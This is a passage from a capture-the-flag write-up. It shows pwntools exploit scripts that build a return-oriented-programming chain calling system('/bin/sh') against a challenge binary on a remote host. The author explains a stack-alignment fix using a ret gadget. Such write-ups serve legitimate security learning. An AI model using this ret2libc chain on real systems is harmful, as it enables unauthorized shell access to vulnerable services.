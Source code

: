 ```python
# })

payload = flat({
    offset: rop.chain()
})


p.sendlineafter(b":", payload)
p.interactive()
```

This exploit worked locally and on my docker instance, but was failing on the challenge server.
This was due to a [stack alignment](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment) issue.

Essentially, to call `system`, the stack needs to be 16-byte aligned otherwise the program will crash.
To fix this, we'll need a `ret` gadget before the call to `system`.

```
root@be175ef608b5:/ctf# ROPgadget --binary ./chall | grep 'ret'
...[SNIP]...
0x000000000040101a : ret
```

Second attempt:

```python
from pwn import *

elf = ELF("./chall")
context.binary = elf
p = remote("34.133.69.112",10007)
# p = remote("172.17.0.3",10007)
# p = elf.process()

offset = 72

libc_base = 0x00007fffff598000
system = libc_base + 0x0000000000050d70
binsh = libc_base + 0x1d8678

pop_rdi = 0x4012bd
# ret = elf.address + 0x40101a
ret =  0x40101a

rop = ROP(elf)
rop.raw(pop_rdi)
rop.raw(binsh)
rop.raw(ret)
rop.raw(system)

# payload = flat({
#     offset: [
#         pop_rdi,
#         binsh,
#         ret,
#         system,
#     ]
# })

payload = flat({
    offset: rop.chain()
})


```